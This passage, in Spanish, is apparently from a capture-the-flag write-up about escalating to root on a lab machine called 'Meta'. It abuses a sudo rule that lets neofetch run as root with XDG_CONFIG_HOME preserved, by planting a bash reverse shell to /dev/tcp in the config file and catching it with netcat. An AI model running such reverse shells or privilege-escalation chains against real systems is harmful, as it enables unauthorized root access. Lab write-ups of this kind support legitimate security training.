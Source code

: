 ## Escalada de Privilegios

Lo primero que siempre compruebo son los permisos a nivel de sudo con **`sudo -l`**

```console
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

Vemos que el usuario **`thomas`** puede ejecutar la herramienta **`neofetch`** con privilegios de **`root`**
Realizando una búsqueda en [GTFOBins](https://gtfobins.github.io/gtfobins/neofetch/) para esta herramienta, encontramos información muy interesante.
El archivo de configuración de esta herramienta se encuentra por defecto en: **~/.config/neofetch/config.conf`**

```console
thomas@meta:~$ cat ~/.config/neofetch/config.conf
```

El archivo contiene muchas líneas, pero lo que nos interesa a nosotros es meter una shell inversa en este archivo para que se ejecute al leerlo el sistema.
Lo pondremos en la primera línea del archivo:

```text
thomas@meta:~$ cat ~/.config/neofetch/config.conf
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.15.113/9999 0>&1"
# See this wiki page for more info:
# https://github.com/dylanaraps/neofetch/wiki/Customizing-Info
print_info() {
    info title
```

Ahora si recordamos el output de **`sudo -l`** vemos que teníamos una variable de entorno llamada **`XDG_CONFIG_HOME`**,
la exportarmos para que apunte a los archivos de configuración del usuario **`thomas`**

```console
p3ntest1ng:~$ export XDG_CONFIG_HOME="$HOME/.config"
```

Ahora nos ponemos en escucha en nuestra máquina con **`netcat`**:

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
```

Y finalmente ejecutamos **`neofetch`** en la máquina Meta de esta forma (NOTA: estos pasos hay que realizarlos muy rápido, porque los archivos se sobreescriben y no persisten nuestros cambios):

```console
thomas@meta:~$ sudo -u root /usr/bin/neofetch \"\"
```
